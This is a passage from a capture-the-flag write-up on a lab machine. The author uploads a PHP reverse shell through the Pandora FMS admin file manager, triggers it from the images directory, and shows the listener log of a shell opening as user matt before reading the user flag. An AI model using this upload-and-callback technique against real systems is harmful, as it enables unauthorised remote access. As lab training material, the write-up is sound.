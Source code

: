 <br>

## Matt

Looking around the menu for a bit leads me to try several different things but ultimately I end up in the **Admin tools -> File manager** menu which has a lot of images in it. I try and navigate over to [**localhost.localdomain/pandora_console/images/**](localhost.localdomain/pandora_console/images/) in another tab and it works. The images displayed in the menu also show up in the other tab, so if we upload a file we know how to navigate to it.

Looking back in the menu there is a file upload option and I upload a **php reverse shell**, which it lets me do without any filter issues. It was even nice enough to highlight it in red making it easier for me to find, thank you Pandora FMS, you're too kind!

![](images/pandora5.png)

<br>

I then navigate over to the file in my other tab and click on it:

![](images/pandora6.png)

<br>

And I get a reverse shell back as **user matt**:

```
listening on [any] 4444 ...
connect to [MY IP] from (UNKNOWN) [10.10.11.136] 48808
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 16:11:20 up  7:07,  2 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
daniel   pts/0    10.10.16.2       14:02   16:25   0.03s  0.03s -bash
daniel   pts/1    10.10.16.2       14:17    1:53m  0.02s  0.02s -bash
uid=1000(matt) gid=1000(matt) groups=1000(matt)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
matt
```

I upgrade my shell since it's non interactive.

<br>

## More System Enumeration

I head over to the **matt home directory** and find the **user.txt** flag waiting for me, which I'm able to view.

`wc -c user.txt`

```
33 user.txt
```
